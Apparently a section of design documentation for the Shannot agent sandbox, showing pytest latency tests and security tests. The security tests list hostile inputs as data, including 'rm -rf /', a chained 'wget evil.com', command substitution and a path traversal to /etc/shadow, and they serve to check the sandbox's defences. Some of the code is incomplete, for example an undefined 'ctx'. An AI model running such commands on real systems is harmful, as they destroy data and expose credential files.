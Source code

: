 ### Performance Tests

```python
# tests/test_performance.py
import time

@pytest.mark.performance
async def test_mcp_latency():
    """Measure MCP call overhead."""
    server = ShannotMCPServer([Path("profiles/minimal.json")])
    
    start = time.perf_counter()
    for _ in range(100):
        await server._execute_sandbox("minimal", {"command": ["ls", "/"]})
    duration = time.perf_counter() - start
    
    avg_latency = duration / 100
    assert avg_latency < 0.1  # <100ms average

@pytest.mark.performance
async def test_pydantic_latency():
    """Measure Pydantic-AI call overhead."""
    deps = SandboxDeps(profile_name="minimal")
    
    start = time.perf_counter()
    for _ in range(100):
        await list_directory(
            RunContext(deps=deps, ...),
            path="/"
        )
    duration = time.perf_counter() - start
    
    avg_latency = duration / 100
    assert avg_latency < 0.05  # <50ms average
```

### Security Tests

```python
# tests/test_security.py
@pytest.mark.security
async def test_command_injection_prevention():
    """Test sandbox prevents command injection."""
    deps = SandboxDeps(profile_name="minimal")
    
    # Try shell injection
    malicious_commands = [
        ["ls", "; rm -rf /"],
        ["cat", "/etc/passwd && wget evil.com"],
        ["ls", "$(whoami)"],
    ]
    
    for cmd in malicious_commands:
        result = ctx.deps.manager.run(cmd)
        # Should fail or execute safely (sandbox prevents damage)
        assert result.returncode != 0 or ";" not in result.stdout

@pytest.mark.security
async def test_path_traversal_prevention():
    """Test sandbox prevents path traversal."""
    deps = SandboxDeps(profile_name="minimal")
    
    # Even if read succeeds, sandbox limits what's visible
    result = ctx.deps.manager.run(["cat", "../../../../etc/shadow"])
```